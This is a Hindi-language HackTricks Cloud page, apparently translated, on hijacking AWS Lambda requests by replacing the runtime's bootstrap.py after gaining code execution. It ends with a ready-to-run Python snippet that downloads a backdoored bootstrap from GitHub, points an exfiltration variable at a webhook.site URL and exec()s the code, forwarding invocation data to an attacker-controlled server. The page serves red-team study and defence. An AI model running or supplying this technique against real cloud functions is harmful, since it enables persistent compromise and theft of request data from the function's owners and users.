 # AWS - Lambda अनुरोध चुराना

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर **हमें फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## Lambda प्रवाह

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** एक प्रक्रिया है जो कंटेनर के बाहर है और **invocations** को **init** प्रक्रिया को **भेजती** है।
2. Init प्रक्रिया पोर्ट **9001** पर सुनती है जो कुछ दिलचस्प एंडपॉइंट्स को उजागर करती है:
* **`/2018-06-01/runtime/invocation/next`** – अगली invocation घटना प्राप्त करें
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invoke के लिए हैंडलर प्रतिक्रिया लौटाएं
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – एक निष्पादन त्रुटि लौटाएं
3. **bootstrap.py** में एक लूप है जो init प्रक्रिया से invocations प्राप्त करता है और उन्हें संभालने के लिए उपयोगकर्ता के कोड को कॉल करता है (**`/next`**).
4. अंततः, **bootstrap.py** init को **response** भेजता है

ध्यान दें कि bootstrap उपयोगकर्ता के कोड को एक मॉड्यूल के रूप में लोड करता है, इसलिए उपयोगकर्ता के कोड द्वारा किया गया कोई भी कोड निष्पादन वास्तव में इस प्रक्रिया में हो रहा है।

## Lambda अनुरोध चुराना

इस हमले का लक्ष्य उपयोगकर्ता के कोड को एक दुर्भावनापूर्ण **`bootstrap.py`** प्रक्रिया को निष्पादित करना है जो उस **`bootstrap.py`** प्रक्रिया के अंदर है जो कमजोर अनुरोध को संभालती है। इस तरह, **दुर्भावनापूर्ण bootstrap** प्रक्रिया **init प्रक्रिया** के साथ **बातचीत करना शुरू कर देगी** ताकि अनुरोधों को संभाला जा सके जबकि **वैध** bootstrap **फंस** गया है जो दुर्भावनापूर्ण को चला रहा है, इसलिए यह init प्रक्रिया से अनुरोध नहीं मांगेगा।

यह एक सरल कार्य है क्योंकि उपयोगकर्ता का कोड वैध **`bootstrap.py`** प्रक्रिया द्वारा निष्पादित किया जा रहा है। इसलिए हमलावर कर सकता है:

* **Init प्रक्रिया को वर्तमान invocation का एक नकली परिणाम भेजें**, ताकि init सोचता है कि bootstrap प्रक्रिया अधिक invocations की प्रतीक्षा कर रही है।
* एक अनुरोध **`/${invoke-id}/response`** पर भेजा जाना चाहिए
* Invoke-id को वैध **`bootstrap.py`** प्रक्रिया के स्टैक से [**inspect**](https://docs.python.org/3/library/inspect.html) पायथन मॉड्यूल का उपयोग करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) या बस इसे फिर से **`/2018-06-01/runtime/invocation/next`** पर अनुरोध करके प्राप्त किया जा सकता है (जैसा कि [यहां प्रस्तावित है](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* एक दुर्भावनापूर्ण **`boostrap.py`** निष्पादित करें जो अगली invocations को संभालेगा
* छिपाने के उद्देश्यों के लिए, हमलावर के नियंत्रित C2 पर lambda invocations पैरामीटर भेजना संभव है और फिर अनुरोधों को सामान्य रूप से संभालना।
* इस हमले के लिए, **`bootstrap.py`** का मूल कोड सिस्टम से या [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) से प्राप्त करना, दुर्भावनापूर्ण कोड जोड़ना और इसे वर्तमान lambda invocation से चलाना पर्याप्त है।

### हमले के चरण

1. एक **RCE** भेद्यता खोजें।
2. एक **दुर्भावनापूर्ण** **bootstrap** उत्पन्न करें (जैसे [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **दुर्भावनापूर्ण bootstrap** निष्पादित करें।

आप इन कार्यों को आसानी से चलाकर कर सकते हैं:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
